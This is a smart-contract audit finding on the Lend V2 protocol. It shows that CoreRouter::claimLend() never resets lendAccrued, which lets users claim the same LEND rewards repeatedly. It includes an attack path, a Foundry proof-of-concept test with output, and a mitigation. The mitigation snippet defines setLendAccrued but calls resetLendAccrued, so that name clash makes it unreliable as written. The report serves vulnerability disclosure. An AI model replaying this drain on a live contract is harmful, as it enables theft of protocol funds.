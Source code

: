 Sweet Satin Donkey

High

# Users will drain LEND tokens by claiming rewards multiple times

### Summary

The missing reset of `lendAccrued` after successful token transfer will cause a complete drain of LEND tokens for the protocol as users will repeatedly claim the same accrued rewards until the contract balance is depleted.

### Root Cause

In `CoreRouter::claimLend()`, after `grantLendInternal()` successfully transfers LEND tokens to the user, the `lendAccrued` mapping is not reset to 0. This allows users to call `claimLend()` multiple times to claim the same rewards repeatedly.

https://github.com/sherlock-audit/2025-05-lend-audit-contest/blob/main/Lend-V2/src/LayerZero/CoreRouter.sol#L399-L403

https://github.com/sherlock-audit/2025-05-lend-audit-contest/blob/main/Lend-V2/src/LayerZero/CoreRouter.sol#L416-L425

### Internal Pre-conditions

N/A

### External Pre-conditions

N/A

### Attack Path

1. User supplies or borrows tokens in the protocol to accrue LEND rewards
2. User calls `CoreRouter::claimLend()` with valid parameters
3. The function executes successfully and transfers LEND tokens to the user via `grantLendInternal()`
4. The `lendAccrued[user]` value remains unchanged instead of being reset to 0
5. User immediately calls `claimLend()` again and receives the same amount of LEND tokens
6. User repeats step 5 until the contract's LEND balance is depleted

### Impact

The protocol suffers a complete loss of all LEND tokens held in the `CoreRouter ` contract. Users can drain the entire LEND token reserve by repeatedly claiming the same rewards

### PoC

Add the following test case to the `TestLendAccrual.t.sol` file:

```solidity
function test_claim_lend_multiple_times() public {
    address lendAddress = lendtroller.getLendAddress();

    // Supply tokens to start accruing LEND
    uint256 supplyAmount = 1000e18;
    (, address lToken) = _supply(supplyAmount, user1);

    _supply(10000e18, user2);

    // Advance time and blocks
    vm.warp(block.timestamp + 1 days);
    vm.roll(block.number + 1000);

    // Trigger LEND distribution
    vm.prank(user1);
    address[] memory holders = new address[](1);
    holders[0] = user1;
    LToken[] memory lTokenArray = new LToken[](1);
    lTokenArray[0] = LToken(lToken);

    uint256 initialLendAccrued = lendStorage.lendAccrued(user1);
    uint256 lendBalanceBefore = IERC20(lendAddress).balanceOf(user1);

    coreRouter.claimLend(holders, lTokenArray, false, true);

    uint256 lendBalanceAfter = IERC20(lendAddress).balanceOf(user1);

    console2.log("lendBalanceBefore", lendBalanceBefore);
    console2.log("lendBalanceAfter", lendBalanceAfter);

    coreRouter.claimLend(holders, lTokenArray, false, true);
    coreRouter.claimLend(holders, lTokenArray, false, true);
    coreRouter.claimLend(holders, lTokenArray, false, true);
    coreRouter.claimLend(holders, lTokenArray, false, true);
    coreRouter.claimLend(holders, lTokenArray, false, true);
    coreRouter.claimLend(holders, lTokenArray, false, true);

    uint256 lendBalanceFinal = IERC20(lendAddress).balanceOf(user1);

    console2.log("lendBalanceFinal", lendBalanceFinal);

    // Get final LEND accrued
    uint256 finalLendAccrued = lendStorage.lendAccrued(user1);

    // lendAccrued remains going up and is not reset to 0 after claimLend()
    assertGt(finalLendAccrued, initialLendAccrued);
    assertGt(lendBalanceFinal, lendBalanceBefore);
    assertGt(lendBalanceFinal, lendBalanceAfter);
}
```

Run the test case and observe the output:

```bash
forge test --mt test_claim_lend_multiple_times -vv
```

```bash
Ran 1 test for test/mocks/TestLendAccrual.t.sol:TestLendAccrual
[PASS] test_claim_lend_multiple_times() (gas: 1093630)
Logs:
  lendBalanceBefore 0
  lendBalanceAfter 9090909090909090
  lendBalanceFinal 63636363636363630
```

### Mitigation

Add a function to set the remaining `lendAccrued` in LendStorage and call it after successful token transfer:

```solidity
// In LendStorage.sol
function setLendAccrued(address user, uint256 amount) external onlyAuthorized {
    lendAccrued[user] = amount;
}

// In CoreRouter.sol claimLend function, after line 401:
for (uint256 j = 0; j < holders.length;) {
    uint256 accrued = lendStorage.lendAccrued(holders[j]);
    if (accrued > 0) {
        uint256 remaining = grantLendInternal(holders[j], accrued);
        lendStorage.resetLendAccrued(holders[j], remaining);
    }
    unchecked {
        ++j;
    }
}
```
